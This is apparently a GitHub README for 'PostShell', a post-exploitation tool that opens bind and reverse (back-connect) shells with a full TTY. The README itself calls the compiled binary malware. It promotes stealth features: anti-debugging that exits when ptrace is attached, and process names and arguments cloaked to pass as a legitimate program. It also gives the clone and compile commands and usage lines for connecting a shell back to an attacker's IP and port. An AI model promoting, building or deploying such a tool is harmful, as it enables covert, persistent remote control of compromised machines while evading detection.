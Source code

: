 # PostShell
PostShell is a post-exploitation shell that includes both a bind and a back connect shell. It creates a fully interactive TTY which allows for job control. The stub size is around 14kb and can be compiled on any Unix like system.

## Why not use a traditional Backconnect/Bind Shell?
PostShell allows for easier post-exploitation by making the attacker less dependant on dependencies such as Python and Perl. It also incorporates both a back connect and bind shell, meaning that if a target doesn't allow outgoing connections an operator can simply start a bind shell and connect to the machine remotely. PostShell is also significantly less suspicious than a traditional shell due to the fact both the name of the processes and arguments are cloaked.

## Features
+ Anti-Debugging, if ptrace is detected as being attached to the shell it will exit.
+ Process Name/Thread names are cloaked, a fake name overwrites all of the system arguments and file name to make it seem like a legitimate program.
+ TTY, a TTY is created which essentially allows for the same usage of the machine as if you were connected via SSH.
+ Bind/Backconnect shell, both a bind shell and back connect can be created.
+ Small Stub Size, a very small stub(<14kb) is usually generated.

## Getting Started
1. Downloading: `git clone https://github.com/rek7/postshell`
2. Compiling: `cd postshell && sh compile.sh`
This should create a binary called "stub" this is the malware.

## Commands
```bash
$ ./stub
Bind Shell Usage: ./stub port
Back Connect Usage: ./stub ip port
$
```
## Example Usage
Backconnect:
```bash
$ ./stub 127.0.0.1 13377
```
Bind Shell:
```bash
$ ./stub 13377
```
